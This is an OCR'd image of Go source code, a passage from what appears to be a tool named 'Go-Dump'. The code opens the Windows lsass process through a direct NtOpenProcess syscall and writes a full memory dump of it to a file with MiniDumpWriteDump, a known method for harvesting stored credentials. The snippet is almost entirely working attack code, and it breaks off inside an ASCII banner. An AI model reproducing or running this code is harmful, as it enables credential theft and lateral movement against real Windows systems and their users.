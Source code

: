 ```go

  // Variable to store process pointer
  var procHandle uintptr
  // Open lsass process
  _, err = hooka.Syscall(
    NtOpenProcess, // syscall
    uintptr(unsafe.Pointer(&procHandle)), // process handle
    uintptr(0xFFFF),
    uintptr(unsafe.Pointer(&ObjectAttrs{0, 0, 0, 0, 0, 0})), // attributes
    uintptr(unsafe.Pointer(&ClientID{uintptr(pid), 0})),
    0,
  )

  if err != nil { // Handle error
    return err
  } else if procHandle == 0 {
    return err
  }

  // Create file on path
  os.Create(output)
  // Get API call
  CreateFile := windows.NewLazyDLL("kernel32").NewProc("CreateFileW")
  // Convert string to uintptr
  path, _ := syscall.UTF16PtrFromString(output)

  // Call CreateFileW to write memory bytes
  fHandle, _, _ := CreateFile.Call(
    uintptr(unsafe.Pointer(path)), // file path
    syscall.GENERIC_WRITE, // access
    syscall.FILE_SHARE_READ | syscall.FILE_SHARE_WRITE,
    0,
    syscall.OPEN_EXISTING,
    syscall.FILE_ATTRIBUTE_NORMAL,
    0,
  )

  MiniDumpWriteDump := windows.NewLazyDLL("Dbghelp.dll").NewProc("MiniDumpWriteDump")
  // Dump memory
  ret, _, err := MiniDumpWriteDump.Call(
    uintptr(procHandle), // process handle
    uintptr(pid), // process id
    uintptr(fHandle), // file handle
    0x00061907, // MiniDumpWithFullMemory
    0,
    0,
    0,
  )

  if (ret == 0) { // Handle error
    os.Remove(output)
    return err
  }

  return nil
}

func Banner(){
  fmt.Println(`   ___         ___
  / __|___ ___|   \ _  _ _ __  _ __
 | (_ / _ \___| |) | || | '  \| '_ \
  \___\___/   |___/ \_,_|_|_|_| .__/
                              |_|
```